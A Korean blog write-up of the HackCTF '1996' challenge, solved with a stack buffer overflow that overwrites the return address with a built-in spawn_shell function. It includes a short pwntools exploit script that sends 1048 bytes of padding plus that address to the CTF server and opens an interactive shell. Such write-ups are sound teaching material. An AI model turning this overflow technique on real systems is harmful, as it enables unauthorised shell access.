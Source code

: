 ```yaml
---
layout: post
title:  "HacCTF 1996 write-up"
date:   2020-01-11 19:45:55
image:  hackctf_1996.PNG
tags:   [HackCTF]
categories: [Write-up]
---
```


# [HackCTF] 1996

Date: Jan 11, 2020
Tags: report

### 1.  문제

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%201996/Untitled.png)

NX 비트가 걸려있다

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%201996/Untitled%201.png)

프로그램을 실행하면 다음과 같이 나온다. 어떠한 환경 변수를 읽고 싶은지 묻고 입력을 하면 입력한 값을 출력해주고 끝나게 된다

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%201996/Untitled%202.png)

코드를 보면 C++ 코드로 구성된것을 알 수 있다.

코드만 보면 v3을 v4에 넣고 v7, v8 이걸 v9에 넣고,,, 복잡하다.

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%201996/Untitled%203.png)

그리고  shell을 실행시키는 함수가 내장되어 있으므로 이를 이용해서 푸는 문제인 것 같다

### 2. 접근방법

복잡할 것 같지만 다 훼이크이고 std cin을 이용해 name 변수를 통한 bof로 문제를 풀면 끝날 것 같다

name 부터 ret 까지 1048 크기이니 1048+ spawn_shell 주소 이렇게 주면 된다

### 3. 풀이

최종 익스 코드는 다음과 같다

    from pwn import *
    
    p = remote("ctf.j0n9hyun.xyz",3013)
    
    p.recvuntil("Which environment variable do you want to read?")
    
    payload = "A"*1048
    payload += p64(0x0000000000400897)
    
    p.sendline(payload)
    p.interactive()

### 4. 몰랐던 개념

쫄지말자
